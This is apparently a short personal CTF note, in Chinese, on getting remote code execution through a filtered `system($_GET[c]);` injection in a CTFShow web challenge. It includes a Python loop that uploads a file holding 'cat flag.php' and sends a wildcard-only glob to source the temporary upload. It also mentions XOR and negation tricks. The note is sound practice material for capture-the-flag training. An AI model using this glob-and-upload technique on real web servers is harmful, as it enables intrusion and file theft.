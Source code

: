 tags:: CTF/RCE

- # 参考
	- [[CTF/WP/CTFShow/web55]]
- # 方式一
	- 对于这样的语句：`system($_GET[c]);`
	- 可以执行上传的文件缓存
	- ```python
	  while True:
	      r = requests.post(
	          url,
	          params = {
	              "c": ". /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]"
	          },
	          files={
	              "file":("a.txt", "cat flag.php")
	          }
	      )
	      if r.text:
	          break
	  
	  print(r.text)
	  ```
- # 方式二
	- 使用异或、取反等操作
- # 方式三
	- [[CTF/WP/CTFShow/web57]]